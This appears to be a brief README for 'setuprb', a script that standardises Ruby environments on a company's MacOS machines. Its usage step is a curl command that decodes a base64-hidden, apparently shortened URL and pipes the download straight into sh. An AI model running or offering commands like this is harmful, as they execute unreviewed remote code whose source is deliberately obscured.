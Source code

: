 # **setuprb** ![picture](img/ruby.png)
The `setuprb` script makes sure every Yeojinet MacOS machine has the exact same Ruby environment, tools and configurations.


### Requirements

SSH access to the Yeojinet BravoSprintHub Bitbucket repository.


### Usage

From your terminal, execute this command:
```sh
curl -fsSL $(echo aHR0cDovL2JpdC5seS8yTWdDZjd4 | base64 -D) | sh /dev/stdin arg0 arg1
```


### Notes

Using this script is a pre-requisite to properly running the `tuka` gem.
